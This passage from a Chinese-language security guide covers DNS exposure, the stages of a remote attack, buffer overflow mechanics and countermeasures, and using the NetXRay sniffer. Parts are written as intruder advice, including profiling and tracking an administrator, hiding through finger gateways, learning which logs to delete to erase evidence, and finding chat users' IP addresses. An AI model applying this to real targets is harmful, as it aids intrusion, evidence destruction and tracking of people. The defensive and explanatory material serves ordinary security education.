## 7. 域名服务 (DNS)
域名服务是指在人们使用的主机名与机器使用的数字 IP 地址之间进行转换。在互联网早期阶段，网上的每个站点都保留一个主机列表，其中列有相关的每个机器的名字和 IP 地址。随着联网的主机成百万地增加，每个站点都保留一份主机列表就不现实了，也很少有站点能够那样做。一方面是如果那样做，主机列表会非常大，另一方面是当其他机器改变名字和对应的地址时，主机列表不能及时修改，这两方面的原因都导致主机列表不易修改。

取而代之的是使用域名服务 DNS。DNS 允许每个站点保留自己的主机信息，也能查询其他站点的信息。DNS 本质上不是一个用户级服务，但它是 SMTP、FTP 和 Telnet 的基础，每个其他的服务都用到它，因为用户愿意使用域名而不是那些难记的数字。许多匿名 FTP 服务器还要进行名字和地址的双重验证，否则不允许从客户机登录。

一般来说，每一个企业网都必须使用和提供名字服务，以便加入互联网。然而，提供 DNS 服务的主要风险是可能泄露内部机器信息。在 DNS 的数据库文件中往往会包含一些主机信息的记录，这些信息如果不加以保护是很容易被外界知道的，也很容易给攻击者提供一些有用信息，如机器所用的操作系统等。

内部使用 DNS 和依赖主机名进行认证，使人们无力抵抗那些建立了伪 DNS 服务器的入侵者，这可以通过几种方法组合来解决，包括：
- 使用 IP 地址（而不是主机名）来认证所需的更安全的服务（防止名字欺骗技术）。
- 为保证最安全的服务，要认证用户而不是主机名，因为 IP 地址也不可靠（防止 IP 欺骗技术）。

## 二、远程攻击
### 1. 什么是远程攻击
简单地说，远程攻击就是指攻击远程计算机。“远程计算机”的定义如下：

“一台远程计算机是指这样一台机器：它不是你正在其上工作的平台，而是能利用某类协议通过 Internet 网或任何其他网络介质被使用的计算机”。

而准确一点儿说，一个远程攻击的攻击对象是攻击者还无法控制的计算机；也可以说，远程攻击是一种专门攻击除攻击者自己计算机以外的计算机，这台计算机可能是在近在咫尺的同一工作间或是同一楼房中，也有可能是在千里之遥的大洋彼岸。

### 2. 如何进行远程攻击
通常的远程攻击可以分为以下几个步骤进行：

### (1) 收集目标信息
首先，进行远程攻击并不需要和攻击目标进行密切地接触。入侵者的第一个任务（在识别出目标机及其所在的网络的类型后）是决定他要对付谁。此类信息的获得毋须干扰目标的正常工作（假设目标没有安装防火墙，因为大部分的网络都没有安装防火墙，长期以来一直如此）。此类的某些信息可通过下面的技术获得：
- 运行一个查询命令 host。通过此命令，入侵者可获得保存在目标域服务器中的所有信息。其查询结果所含信息量的多少主要依靠网络的大小和结构。
- WHOIS 查询。此查询的方法可识别出技术管理人员，这类信息也被认为是无用的，其实不然，因为通常技术管理人员需要参与目标网的日常管理工作，所以这些人的电子邮件地址会有些价值（而且同时使用 host 和 WHOIS 查询有助于你判断目标是一个实实在在的系统还是一个页结点，或是由另一个服务形成的虚拟的域等等）。
- 运行一些 Usenet 和 WEB 查询。在入侵者和目标进行实际接触之前，他还有许多查询工作要做。其中之一就是查询某位技术管理人员的名字信息（使用强制的、区分大小写的、完全匹配用的条件查询）。通过查询入侵者可了解这些系统管理员和技术管理员是否经常上 Usenet。同样，也可在所有可用的安全邮件列表的可查询集合中查询他们的地址。有许多网络服务可用于收集目标的信息，如 finger、howmount 和 rpcinfo 都是好的起点。但不要停滞于此，你还能利用 DNS、WHOIS、Sendmail smtp 、ftp、uucp 和其他可用的各种服务。收集系统管理员的相关信息是最为重要的。系统管理员的职责是维护站点的安全，当他们遇到各种问题时，许多管理员会迫不及待地将这些问题发到 Usenet 或邮件列表上以寻求答案。只要肯花一些时间来寻找此系统管理员的地址（和其他的一些信息）你便能彻底地了解他的网络、他的安全概念以及他的个性。因为发出这种邮件的系统管理员总会指明他们的组织结构、网络的拓扑结构和他们面临的问题。因为不直接使用根帐号，所以系统管理员的 ID 可为任何字符串。让我们假设你知道这个 ID：walrus。进一步假设通过 host 查询命令你得到了 150 台计算机的有关信息其中包括每台计算机的名字。例如他们可以是 mail.victim.net、news.victim.net、shell.victim.net、cgi.victim.net 等等（尽管在实践中，它们可能会有“主题”名，从而使外人不知道某台机器负担何种工作）。入侵者应该在每台机器上试一试管理员的地址，事实上除了在网络的每台计算机上尝试管理员的地址外，入侵者还会在每台计算机上尝试所有的具有普遍性的东西。也许可以发现 walrus 喜欢用的计算机，所有信件都是从这台计算机发出的。请注意如果目标是一个服务提供者（或者允许用户对它进行合法访问的系统）那么通过观察系统管理员从哪里进入系统能获得此管理员的更多信息。一般从外部联合使用 finger 和 rusers 命令即可获得这些信息。换句话说，你要一直留意外部网（除目标网以外的网，在这些网络上那个系统管理有一些帐号），如果他最近的一次登录是在 Netcom，跟踪他在 Netcom 帐号一天左右，看看会发生什么。

### (2) 关于 finger 查询
finger 很可能暴露你的行为，为了避免 finger 查询产生标记，绝大多数入侵者使用 finger gateways( finger 网关)。finger 网关是一些 WEB 主页，通常包含了一个简单的输入框(field)，此框指向在远地服务器硬盘上的一个 CGI 程序，此远程服务器执行 finger 查询。通过 finger 网关的使用，入侵者能隐藏其源地址。

### (3) 关于操作系统
也许你已经使用了各种方法来识别在目标网络上使用的操作系统的类型和版本。无论如何，一旦判断出目标网络上的操作系统和结构是什么样的，下一步的研究工作就可以进行了。首先作一张表，列出每个操作系统和机器的类型（这张表对于你进一步进行研究有极大的帮助），然后对每个平台进行研究并找出它们中的漏洞。

### (4) 进行测试
实际上只有那些对入侵极热衷的入侵者才会做攻击过程中的测试部分。大部分的入侵者并不想尝试这种行为，因为这需要一定的费用。在此步骤中，首先要建立一个和目标一样的环境。一旦将此环境建立起来后，你就可对它进行一系列的攻击。在此过程中，有两件事需要注意：
- ① 从攻击方来看，这些攻击行为看上去像什么；
- ② 从被攻击方来看，这些攻击行为看上去像什么。

通过检查攻击方的日志文件，入侵者能大致了解对一个几乎没有保护措施的目标进行攻击时攻击行为看上去像什么（目标没有保护措施是指目标机上没有运行传统的守护程序）。这能给入侵者提供一些提示，如果真正的攻击行为和实验结果不一致，那么一定存在着某些原因。一台相同配置的机器（或者，应说成一台配置明显一致的机器）在相同的攻击下应产生相同的反应。如果结果并非如此，那说明管理目标机的人暗中已有了应急计划。在这种情况下，入侵者应谨慎行动。通过检查被攻击方的日志，入侵者可了解攻击过程中留下的“痕迹”看上去像什么。这对入侵者来说很重要。在一个异构系统中，存在着不同的日志过程。入侵至少应该知道这些日志过程是什么，换句话说，他需要了解保存入侵“痕迹”的每个文件（在相同配置的计算机上）。这些信息是至关重要的，并具有指导作用：它能告诉入侵者删除哪些文件来毁灭其入侵的证据。找到这些文件的唯一方法就是在自己控制的环境中进行测试并检查日志。

### (5) 各种相关工具的准备
紧接着应该收集各种实际使用的工具，这些工具最有可能是一些扫描工具，入侵者至少应该判断出目标网上的所有设备。基于对操作系统的分析，你需要对你的工具进行评估，以判断有哪些漏洞和区域它们没有覆盖到。在只用一个工具而不用另一个工具就可覆盖某特定设备的情况下，最好还是同时使用这两个工具。这些工具的联合使用是否方便主要依赖于这些工具是否能简易地作为外部模块附加到一个扫描工具上，如 SATAN 或 SAFESuite。在此进行测试变得极为有价值，因为在多数情况下附加一个外部模块并让它正常地工作不那么简单。为了得到这些工具工作的确切结果，最好先在某台机器上进行实验（这台机器甚至可与目标机不同）。这是因为，我们想知道是否会由于加上两个或多个单独设计的模块而使扫描工具的工作突然被中断或失败。记住，实际的扫描攻击过程只能一气呵成，如果中间被打断，那你不会有第二次机会。于是，根据你想在目标机上得到的东西，你可挑选一些合适的工具，在某些情况下，这是一件轻松的事。例如，也许你已经知道在目标系统上的某人正通过网络运行着一些 X 窗口系统的应用软件，在这种情况下，如果你搜索 Xhost 的漏洞，一定能有所收获。记住使用扫描工具是一种激烈的解决方案。它等于是在大白天拿着棍冲到某户人家，去试着撬所有的门和窗。只要此系统的管理员适度地涉猎过一些安全技术，那你的行为在他面前会暴露无遗。

### (6) 攻击策略的制定
在 Internet 漫游过程中攻击这台或那台服务器的日子基本上已经过去。多年前，只要系统没有遭到破坏，突破系统安全的行为便被看作是一种轻微的越界行为。如今，形势则大不相同。今天，数据的价值成了谈论的焦点。因此作为现代入侵者，没有任何理由就实施入侵是很不明智的。反过来，只有制定了一个特定计划再开始进行入侵才是明智之举。攻击策略主要依赖于入侵者所想要达到的目的。需要说明的是扫描时间花得越长，也就是说越多的机器被涉及在内，那么扫描的动作就越有可能被发现；同时有越多的扫描数据需要筛选，因此，扫描的攻击时间越短越好。一旦通过收集到的数据判断出网络的某部分和整个网络是通过路由器、交换机、桥或其他设备分隔的，那么就应该把它排除在被扫描的对象之外。毕竟攻破这些系统而获得的收益可能微乎其微。假定入侵者获得了此网段上的某系统的根权限，那他能得到什么呢？他可以轻松地穿过路由器、桥或交换机吗？恐怕不能！因此，监听只能提供此网段上其他计算机的相关信息，欺骗方法也只能对此网段内的机器有效。因为你所想要的是一个主系统上（或者是一个可用的最大网段）的根权限，所以对一个更小、更安全的网络进行扫描不可能获得很大的好处。无论如何，一旦你确定了扫描的参数，就可以开始行动了。

### (7) 扫描结束后
当你完成扫描后，你便可以开始分析这些数据了。首先你应考虑通过此方法得到的信息是否可靠（可靠度在某种程度上可通过在类似的环境中进行的扫描实验得到）。然后再进行分析，扫描获得的数据不同则分析过程也不同。在 SATAN 中的文档中有一些关于漏洞的简短说明，并且直接而富有指导性。如果找到了某个漏洞，你就应该重新参考那些通过搜索漏洞和其他可用资源而建立起来的数据库信息。主要的一点是，没有任何方法能使一个新手在一夜之间变成一位有经验的系统管理员或入侵者，这是残酷的事实。在你真正理解了攻击的本质和什么应从攻击中剔除之前，你可能要花上数个星期来研究源码、漏洞、某特定操作系统和其他信息，这些是不可逾越的。在攻击中经验是无法替代的，耐心也是无法替代的。如果你缺乏上述任何一个特点，那就忘记进攻吧。这是此处的重要一点。无论是像 Kevin Mitnik（入侵者）这种人还是像 Wietse Venema（黑客）这种人，他们几乎没有区别。他们是计算机安全领域内的著名人士（在某些情况下，甚至远远超过）。然而他们的成果无论是好是坏，都来自于艰苦的工作、学习、天赋、思想、想象和自我钻研。因此，防火墙无法挽救一个不能熟练使用它的系统管理员；同样，SATAN 也无法帮助一个刚出道的入侵者攻破远程目标的保护。远程攻击变得越来越普遍，扫描工具的运用已被更多的普通用户所掌握。类似的，可查询的安全漏洞索引的大量增加，也极大地促进了人们识别可能的安全问题的能力。虽然这里列出了远程攻击的一般步骤，但是如果你仅是一位初学者的话，不要指望能够据此进行远程攻击，一个经过很好计划和可怕的远程攻击。需要实施者对 TCP/IP 以及系统等方面的知识有着极深刻的了解。

## 三、缓冲溢出
缓冲区溢出的漏洞是众所周知的，这是一个非常普遍、非常危险的漏洞，在各种操作系统、应用软件中广泛存在。以缓冲区溢出为类型的安全漏洞是最为常见的一种漏洞，也因此对缓冲区溢出漏洞的攻击占了远程网络攻击的绝大多数，有专门研究安全问题的人说，这是“十年来攻击和防卫的弱点”，可见，无论是一名黑客还是一名系统管理员，对于高级缓冲区溢出方面的知识是不可或缺的。

### 1. 缓冲溢出的概念与原理
缓冲溢出指的是一种系统攻击的手段，通过向程序的缓冲区写超出其长度的内容，造成缓冲区的溢出，从而破坏程序的堆栈。使程序转而执行其它指令，以达到攻击的目的。据统计，通过缓冲区溢出进行的攻击占所有系统攻击总数的 80%以上。造成缓冲区溢出的原因是程序中没有仔细检查用户输入的参数。从上面的缓冲区溢出定义中可以看到，缓冲区溢出就是将一个超过缓冲区长度的字符串置入缓冲区的结果，而向一个有限空间的缓冲区中置入过长的字符串可能会带来两种后果，一是过长的字符串覆盖了相邻的存储单元，引起程序运行失败，严重的可导致系统崩溃；另一种后果是利用这种漏洞可以执行任意指令，甚至可以取得系统特权。由此而引发了许多种攻击方法。

## 2. 缓冲溢出的危害

缓冲区溢出攻击之所以成为一种常见安全攻击手段，其原因在于缓冲区溢出漏洞太普通了，并且易于实现。这种攻击可以使得一个匿名的 Internet 用户有机会获得一台主机的部分或全部的控制权。而且，缓冲区溢出成为远程攻击的主要手段，其原因在于缓冲区溢出漏洞给予了攻击者他所想要的一切：植入并且执行攻击代码。被植入的攻击代码以一定的权限运行有缓冲区溢出漏洞的程序，从而得到被攻击主机的控制权。在 1998 年 Lincoln 实验室用来评估入侵检测的 5 种远程攻击中有 3 种是基于社会工程学的信任关系，2 种是缓冲区溢出。而在 1998 年 CERT 的 13 份建议中，有 9 份是与缓冲区溢出有关的，在 1999 年，至少有半数的建议是和缓冲区溢出有关的。在 Bugtraq 的调查中，有 2/3 的被调查者认为缓冲区溢出漏洞是一个很严重的安全问题。

## 3. 缓冲溢出漏洞及攻击

缓冲区溢出攻击的目的在于扰乱具有某些特权运行的程序的功能。这样可以让攻击者取得程序的控制权，如果该程序具有足够的权限，那么整个主机就被控制了。一般而言，攻击者攻击 root 程序，然后执行类似“exec sh”的执行代码来获得 root 的 shell。但并不总是这样的，为了达到这个目的，攻击者必须达到如下的两个目标：

- 在程序的地址空间里安排适当的代码；
- 通过适当地初始化寄存器和存储器，让程序跳转到安排好的地址空间执行。

我们根据这两个目标来对缓冲区溢出攻击进行分类。

### 一、在程序的地址空间里安排适当的代码的方法

有两种在被攻击程序地址空间里安排攻击代码的方法：

### 1、植入法：

攻击者向被攻击的程序输入一个字符串，程序会把这个字符串放到缓冲区里。这个字符串包含的数据是可以在这个被攻击的硬件平台上运行的指令序列。在这里攻击者用被攻击程序的缓冲区来存放攻击代码。具体的方式有以下两种差别：

- (1) 攻击者不必为达到此目的而溢出任何缓冲区。可以找到足够的空间来放置攻击代码。
- (2) 缓冲区可以设在任何地方：堆栈（自动变量）、堆（动态分配的）和静态数据区（初始化或者未初始化的数据）。

### 2、利用已经存在的代码：

有时候，攻击者想要的代码已经在被攻击的程序中了，攻击者所要做的只是对代码传递一些参数，然后使程序跳转到我们的目标。比如，攻击代码要求执行“exec(/bin/sh)”，而在 libc 库中的代码执行“exec(arg)”，其中 arg 是一个指向字符串的指针参数，那么攻击者只要把传入的参数指针改向指向“/bin/sh”，然后调转到 libc 库中的相应的指令序列即可。

### 二、控制程序转移到攻击代码的方法

所有的这些方法都是在寻求改变程序的执行流程，使之跳转到攻击代码。最基本的就是溢出一个没有边界检查或者其他弱点的缓冲区，这样就扰乱了程序的正常执行顺序。通过溢出一个缓冲区，攻击者可以用近乎暴力的方法改写相邻的程序空间而直接跳过系统的检查。这里分类的基准是攻击者所寻求的缓冲区溢出的程序空间类型。原则上可以是任意的空间。比如，最初的 Morris Worm（莫尔斯蠕虫）就是使用了 fingerd 程序的缓冲区溢出，扰乱 fingerd 要执行的文件的名字。实际上，许多的缓冲区溢出是用暴力的方法来寻求改变程序指针的。这类程序的不同的地方就是程序空间的突破和内存空间的定位不同。一般来说，控制程序转移到攻击代码的方法有以下几种：

- 1、激活记录（Activation Records）：
每当一个函数调用发生时，调用者会在堆栈中留下一个激活记录，它包含了函数结束时返回的地址。攻击者通过溢出这些自动变量，使这个返回地址指向攻击代码，通过改变程序的返回地址，当函数调用结束时，程序就跳转到攻击者设定的地址，而不是原先的地址。这类的缓冲区溢出被称为“stack smashing attack”，是目前常用的缓冲区溢出攻击方式。

- 2、函数指针（Function Pointers）：
`void * foo()` 声明了一个返回值为 void 函数指针的变量 foo。函数指针可以用来定位任何地址空间，所以攻击者只需在任何空间内的函数指针附近找到一个能够溢出的缓冲区，然后溢出这个缓冲区来改变函数指针。在某一时刻，当程序通过函数指针调用函数时，程序的流程就按攻击者的意图实现了。它的一个攻击范例就是在 Linux 系统下的 superprobe 程序。

- 3、长跳转缓冲区（Longjmp buffers）：
在 C 语言中包含了一个简单的检验/恢复系统，称为 setjmp/longjmp。意思是在检验点设定“setjmp buffer”，用“longjmp(buffer)”来恢复检验点。然而，如果攻击者能够进入缓冲区的空间，那么“longjmp buffer)”实际上是跳转到攻击者的代码。像函数指针一样，longjmp 缓冲区能够指向任何地方，所以攻击者所要做的就是找到一个可供溢出的缓冲区。一个典型的例子就是 Perl 5.003，攻击者首先进入用来恢复缓冲区溢出的 longjmp 缓冲区，然后诱导进入恢复模式，这样就使 Perl 的解释器跳转到攻击代码上了。

### 三、综合代码植入和流程控制技术

最简单和常见的缓冲区溢出攻击类型就是在一个字符串里综合了代码植入和激活记录。攻击者定位一个可供溢出的自动变量，然后向程序传递一个很大的字符串，在引发缓冲区溢出改变激活记录的同时植入了代码。这个是由 Levy 指出的攻击的模板。因为 C 在习惯上只为用户和参数开辟很小的缓冲区，因此这种漏洞攻击的实例不在少数。

代码植入和缓冲区溢出不一定要在一次动作内完成。攻击者可以在一个缓冲区内放置代码，这时不能溢出缓冲区。然后，攻击者通过溢出另外一个缓冲区来转移程序的指针。这种方法一般用来解决可供溢出的缓冲区不够大（不能放下全部的代码）的情况。如果攻击者试图使用已经常驻的代码而不是从外部植入代码，他们通常必须把代码作为参数。举例来说，在 libc（几乎所有的 C 程序都要它来连接）中的部分代码段会执行“exec something”，其中 something 就是参数。攻击者使用缓冲区溢出改变程序的参数，然后利用另一个缓冲区溢出使程序指针指向 libc 中的特定的代码段。

## 4. 缓冲区溢出的保护方法

### 一、编写正确的代码

编写正确的代码是一件非常有意义但耗时的工作，特别像编写 C 语言那种具有容易出错倾向的程序（如：字符串的零结尾），这种风格是由于追求性能而忽视正确性的传统引起的。尽管花了很长的时间使得人们知道了如何编写安全的程序组，但具有安全漏洞的程序依旧出现。因此人们开发了一些工具和技术来帮助经验不足的程序员编写安全正确的程序。最简单的方法就是用 grep 来搜索源代码中容易产生漏洞的库的调用，比如对 strcpy 和 sprintf 的调用，这两个函数都没有检查输入参数的长度。事实上各个版本 C 的标准库均有这样的问题存在。为了寻找一些常见的诸如缓冲区溢出和操作系统竞争条件等漏洞，一些代码检查小组检查了很多的代码。然而依然有漏网之鱼存在。尽管采用了 strncpy 和 snprintf 这些替代函数来防止缓冲区溢出的发生，但是由于编写代码的问题，仍旧会有这种情况发生。比如 lprm 程序就是最好的例子，虽然它通过了代码的安全检查，但仍然有缓冲区溢出的问题存在。为了对付这些问题，人们开发了一些高级的查错工具，如 fault injection 等。这些工具的目的在于通过人为随机地产生一些缓冲区溢出来寻找代码的安全漏洞。还有一些静态分析工具用于侦测缓冲区溢出的存在。

虽然这些工具可以帮助程序员开发更安全的程序，但是由于 C 语言的特点，这些工具不可能找出所有的缓冲区溢出漏洞。所以，侦错技术只能用来减少缓冲区溢出的可能，并不能完全地消除它的存在，除非程序员能保证他的程序万无一失。

### 二、非执行的缓冲区

通过使被攻击程序的数据段地址空间不可执行，从而使得攻击者不可能执行被植入被攻击程序输入缓冲区的代码，这种技术被称为非执行的缓冲区技术。事实上，很多老的 Unix 系统都是这样设计的。但是近来的 Unix 和 MS Windows 系统为实现更好的性能和功能，往往在数据段中动态地放入可执行的代码。所以为了保持程序的兼容性不可能使得所有程序的数据段不可执行。但是我们可以设定堆栈数据段不可执行，这样就可以最大限度地保证了程序的兼容性。Linux 和 Solaris 都发布了有关这方面的内核补丁。因为几乎没有任何合法的程序会在堆栈中存放代码，这种做法几乎不产生任何兼容性问题，除了在 Linux 中的两个特例，这时可执行的代码必须被放入堆栈中：

- 1、信号传递：
Linux 通过向进程堆栈释放代码，然后引发中断来执行在堆栈中的代码进而实现向进程发送 Unix 信号。非执行缓冲区的补丁在发送信号的时候是允许缓冲区可执行的。

- 2、GCC 的在线重用：
研究发现 gcc 在堆栈区里放置了可执行的代码以便在线重用。然而关闭这个功能并不产生任何问题，只有部分功能似乎不能使用。非执行堆栈的保护可以有效地对付把代码植入自动变量的缓冲区溢出攻击，而对于其他形式的攻击则没有效果。通过引用一个驻留的程序的指针，就可以跳过这种保护措施。其他的攻击可以采用把代码植入堆或者静态数据段中来跳过保护。

### 三、数组边界检查

植入代码引起缓冲区溢出是一个方面，扰乱程序的执行流程是另一个方面。不像非执行缓冲区保护，数组边界检查完全没有了缓冲区溢出的产生和攻击。这样只要数组不能被溢出，溢出攻击也就无从谈起。为了实现数组边界检查，则所有的对数组的读写操作都应当被检查，以确保对数组的操作在正确的范围内。最直接的方法是检查所有的数组操作，但是通常可以采用一些优化的技术来减少检查的次数。目前以下的几种检查方法：

- 1、Compaq C 编译器：
Compaq 公司为 Alpha CPU 开发的 C 编译器支持有限度的边界检查（使用 `-check bounds` 参数）。这些限制是：只有显式的数组引用才被检查，比如 `a[3]` 会被检查，而 `*(a + 3)` 则不会。

由于所有的 C 数组在传送的时候是指针传递的，所以传递给函数的数组不会被检查。带有危险性的库函数如 Strcpy 不会在编译的时候进行边界检查，即便是指定了边界检查。在 C 语言中利用指针进行数组操作和传递是非常频繁的，因此这种局限性是非常严重的。通常这种边界检查用来程序的查错，而且不能保证不发生缓冲区溢出的漏洞。

- 2、Jones & Kelly: C 的数组边界检查：
Richard Jones 和 Paul Kelly 开发了一个 gcc 的补丁，用来实现对 C 程序完全的数组边界检查。由于没有改变指针的含义，所以被编译的程序和其他的 gcc 模块具有很好的兼容性。更进一步的是，他们由此从没有指针的表达式中导出了一个“基”指针，然后通过检查这个基指针来侦测表达式的结果是否在容许的范围之内。当然，这样付出的性能上的代价是巨大的；对于一个频繁使用指针的程序，如向量乘法，将由于指针的频繁使用而使速度慢 30 倍。这个编译器目前还很不成熟，一些复杂的程序（如 elm）还不能在这个上面编译、执行通过。然而，在它的一个更新版本之下，它至少能编译执行 SSH 软件的加密软件包，但其实现的性能要下降 12 倍。

- 3、Purify：存储器存取检查：
Purify 是 C 程序调试时查看存储器使用的工具而不是专用的安全工具。Purify 使用“目标代码插入”技术来检查所有的存储器存取。通过用 Purify 连接工具连接，可执行代码在执行的时候带来的性能上的损失要下降 3-5 倍。

- 4、类型-安全语言：
所有的缓冲区溢出漏洞都源于 C 语言的类型安全。如果只有类型安全的操作才可以被允许执行，这样就不可能出现对变量的强制操作。如果作为新手，可以推荐使用具有类型安全的语言如 Java 和 ML。

但是作为 Java 执行平台的 Java 虚拟机是 C 程序，因此攻击 JVM 的一条途径是使 JVM 的缓冲区溢出。因此在系统中采用缓冲区溢出防卫技术来使用强制类型安全的语言可以收到意想不到的效果。

### 四、程序指针完整性检查

程序指针完整性检查和边界检查有略微的不同。与防止程序指针被改变不同，程序指针完整性检查在程序指针被引用之前检测到它的改变。因此，即使一个攻击者成功地改变了程序的指针，由于系统事先检测到了指针的改变，因此这个指针将不会被使用。与数组边界检查相比，这种方法不能解决所有的缓冲区溢出问题；采用其他的缓冲区溢出方法就可以避免这种检测。但是这种方法在性能上有很大的优势，而且兼容性也很好。

- 1、手写的堆栈监测：
Snarkii 为 FreeBSD 开发了一套定制的能通过监测 CPU 堆栈来确定缓冲区溢出的 libc。这个应用完全用手工汇编写的，而且是保护 libc 中的当前有效记录函数。这个应用达到了设计要求，对于基于 libc 库函数的攻击具有很好的防卫，但是不能防卫其它方式的攻击。

- 2、堆栈保护：
堆栈保护是一种提供程序指针完整性检查的编译器技术，通过检查函数活动记录中的返回地址来实现。堆栈保护作为 gcc 的一个小的补丁，在每个函数中，加入了函数建立和销毁的代码。加入的函数建立代码实际上在堆栈中函数返回地址后面加了一些附加的字节。而在函数返回时，首先检查这个附加的字节是否被改动过，如果发生过缓冲区溢出的攻击，那么这种攻击很容易在函数返回前被检测到。但是，如果攻击者预见到这些附加字节的存在，并且能在溢出过程中同样地制造它们，那么它就能成功地跳过堆栈保护的检测。通常，我们有如下两种方案对付这种欺骗。

- (1) 终止符号：
利用在 C 语言中的终止符号如 0 (NUL)、CR、LF、-1 (EOF) 等。这些符号不能在常用的字符串函数中使用，因为这些函数一旦遇到这些终止符号，就结束函数过程了。

- (2) 随机符号：
利用一个在函数调用时产生的一个 32 位的随机数来实现保密，使得攻击者不可能猜测到附加字节的内容。而且，每次调用附加字节的内容都在改变，也无法预测。通过检查堆栈的完整性的堆栈保护法是从 Synthetix 方法演变来的。Synthetix 方法通过用准不变量来确保特定变量的正确性。这些特定的变量的改变是程序实现能预知的，而且只能在满足一定的条件才能可以改变。这种变量我们称为准不变量。Synthetix 开发了一些工具用来保护这些变量。攻击者通过缓冲区溢出而产生的改变可以被系统当做非法的动作。在某些极端的情况下，这些准不变量有可能被非法改变，这时需要堆栈保护来提供更完善的保护了。

实验的数据表明，堆栈保护对于各种系统的缓冲区溢出攻击都有很好的保护作用，并能保持较好的兼容性和系统性能。分析表明，堆栈保护能有效抵御现在的和将来的基于堆栈的攻击。

堆栈保护版本的 Red Hat Linux 5.1 已经在各种系统上运行了多年，包括个人的笔记本电脑和工作组文件服务器。

- 3、指针保护：
在堆栈保护设计的时候，冲击堆栈构成了缓冲区溢出攻击的常见的一种形式。有人推测存在一种模板来构成这些攻击（在 1996 年的时候）。从此，很多简单的漏洞被发现，实施和补丁后，很多攻击者开始用更一般的方法实施缓冲区溢出攻击。指针保护是堆栈保护针对这种情况的一个推广。通过在所有的代码指针之后放置附加字节来检验指针在被调用之前的合法性，如果检验失败，会发出报警信号和退出程序的执行，就如同在堆栈保护中的行为一样。这种方案有两点需要注意：

- (1) 附加字节的定位：
附加字节的空间是在被保护的变量被分配的时候分配的，同时在被保护字节初始化过程中被初始化。这样就带来了问题：为了保持兼容性我们不想改变被保护变量的大小，因此我们不能简单地在变量的结构定义中加入附加字节。还有，对各种类型也有不同附加字节数目。

- (2) 查附加字节：
每次程序指针被引用的时候都要检查附加字节的完整性。这个也存在问题，因为“从存取器读”在编译器中没有语义，编译器更关心指针的使用，而各种优化算法倾向于从存储器中读入变量。还有随着变量类型的不同，读入的方法也各自不同。到目前为止只有很少一部分使用非指针变量的攻击能逃脱指针保护的检测。但是，可以通过在编译器上强制对某一变量加入附加字节来实现检测，这时需要程序员自己手工加入相应的保护了。

## NetXRay 的使用

工具不在多，而在精。说真的，我本人不是很懂编程，也没时间去编。所以就对别人的工具甚是得意。经常有人问我这样或者那样该用什么软件好啊？在这里，我就给你说了，重要的不是工具，而是你自己。因为目前世上还没有什么工具可以傻瓜到一点按钮就可以让你知道一切的地步。我最近就处心积虑地对 NetXRay 发生了极大兴趣，也不知是对它的强大功能有很浓厚的兴趣，还是其他的原因就很难说清了。但是总的来说，一上网就打开它来运行，感觉很是不错。

### 一、NetXRay 简介

NetXRay 本身是由 Cinco Networks 公司开发的一个用于高级分组检测的软件。它可以提供分组获取和译码的功能；它可以提供图形以确切地指出在你的网络中哪里正出现严重的业务拥塞。安装 NetXRay 很简单，但是必须在安装软件和重新引导服务器后，人工增加它的分析网络服务。而我越玩就越觉得 NetXRay 很奇怪，很难于一瞬间详细去解释它，但是它的主要特点总的来说还是比较吸引人的。NetXRay 在很多方面都是很不错的，它是一个监控多个网段并且允许在多监控实例同时还能捕获到你想要捕获的任何类型的报文的工具。并且在 NetXRay 中，图形将会给人另一种视觉，让你更明白看清网络中的状态。这就是 NetXRay 跟别的同类分组检测器的不同之处。

### 二、NetXRay 的使用

首先我们运行 NetXRay，在菜单中选取 tools 下的 host table 项，这时会出现一个窗口，看看界面（如图 5-1）。



图 5-1

从图 5-1 中可以看出，目前你在网络中的状态（因为大家都是在 Internet 中，所以我所要的显示状态选择的是 IP），所有的连接是否都是属于你自己的正常连接，从这个图中你将清清楚楚一目了然看到目前哪个地址与你的连接最为繁忙。最顶上的 192.168.0.6 是自己的 IP，而 216.217.111.8（黄色）则是我的主机在初期对它发的 ICMP 协议。其他的均是与我正在进行通信的远程机器。可事实中当时与我通信最为繁忙的 202.102.29.164 并非是我所允许的，所以我有理由相信它是个非法连接。可能是在查询我的主机信息或者是想从 NetBIOS 找点可与之共享的东西。

其实这个也可以用来查询 OICQ 上 IP。只要你发一个信息给对方，不管对方是否为你的好友名单之中，这图里都会马上用一个颜色显示出对方的 IP。（如图 5-1）在底部又有三第一个选项，你选 IP 吧，因为你想查的是 IP 嘛！窗口又变了，看到很多 IP 了吗？如果你打开网站的话，在内容框里就会出现很多协议，其中有 Other、HTTP、ICMP、DNS。如果你要看 IP，就把注意力集中在 Other 协议里，那里应该有很多 IP 吧？记住：最要紧的就是要给对方发一个信息过去啊！在左边还有很多选项，你得自己好好研究啊。

还有一种方法可以用来查询 OICQ 上的 IP：选取 Tools 下的 Capture 选项之后会弹出一个窗口（如图 5-2）。



图 5-2

